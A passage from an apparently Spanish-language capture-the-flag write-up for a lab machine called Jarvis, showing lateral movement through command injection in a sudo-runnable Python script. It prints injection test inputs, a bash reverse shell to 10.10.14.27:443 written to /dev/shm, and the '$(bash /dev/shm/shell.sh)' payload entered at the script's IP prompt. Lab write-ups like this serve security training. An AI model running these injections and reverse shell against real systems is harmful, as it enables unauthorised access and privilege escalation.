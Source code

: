 ```bash
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    
www-data@jarvis:/var/www/html/images$
```

Podríamos tratar de ejecutar las siguientes opciones:
- 10.10.14.27; whoami
- 10.10.14.27 && whoami
- loquesea || whoami
- $(whoami)

El último comando no nos muestra nada y para los anteriores se tiene el mensaje ***Got you***; por lo que es posible que se esté ejecutando; así que vamos a crear un archivo en bash bajo la ruta `/dev/shm` que nos entable una reverse shell a nuestra máquina.

```bash
www-data@jarvis:/dev/shm$ cat shell.sh 
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.27/443 0>&1
www-data@jarvis:/dev/shm$ chmod +x shell.sh 
www-data@jarvis:/dev/shm$ ls -l
total 4
-rwxr-xr-x 1 www-data www-data 54 Dec 31 23:26 shell.sh
www-data@jarvis:/dev/shm$
```

Y ahora vamos a ejecutar el script `simpler.py` indicanle que queremos ejecutar un comando a nivel de sistema; además nos ponemos en escucha por el puerto 443.

```bash
www-data@jarvis:/dev/shm$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************

Enter an IP: $(bash /dev/shm/shell.sh)


```
